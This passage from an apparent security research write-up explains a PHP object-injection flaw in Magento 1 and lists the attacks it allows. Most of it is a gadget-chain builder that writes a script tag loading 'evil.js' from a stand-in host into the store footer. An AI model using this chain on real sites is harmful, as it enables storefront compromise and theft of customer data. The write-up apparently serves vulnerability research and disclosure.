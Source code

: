This is basically an (admittedly) watered down version of SQL injection.

Here are a few things we could do...

- Inject malware into the database via `core_config_data` or CMS content.
- Tamper with existing admin users or create new ones.
- Tamper with the catalog including pricing.

Let's try it out...

### Injecting <strike>Data</strike> Malware Into `core_config_data`

After working through a few errors, I was able to generate a payload to inject data into `core_config_data`. The required `gadget-builder.php` is as follows...

```php?start_inline=1
<?php

class Credis_Client
{
    protected $redis;
    protected $connected;

    public function __construct()
    {
        $this->connected = true;
        $this->redis = new Mage_Sales_Model_Order_Payment_Transaction;
    }
}

class Mage_Sales_Model_Order_Payment_Transaction
{
    protected $_isFailsafe;
    protected $_paymentObject;
    protected $_data;
    protected $_resourceName;
    protected $_idFieldName;

    public function __construct()
    {

        $this->_isFailsafe = true;
        $this->_paymentObject = new Mage_Sales_Model_Order_Payment;
        $this->_data = [
            'order_id' => 1,
            'scope' => 'default',
            'scope_id' => 0,
            'path' => 'design/footer/absolute_footer',
            'value' => '<script src="http://example.com/evil.js></script>"'
        ];
        $this->_resourceName = 'core/config_data';
        $this->_idFieldName = 'id';
    }
}

class Mage_Sales_Model_Order_Payment
{
    protected $_idFieldName;

    public function __construct()
    {
        $this->_idFieldName = 'id';
    }
}

```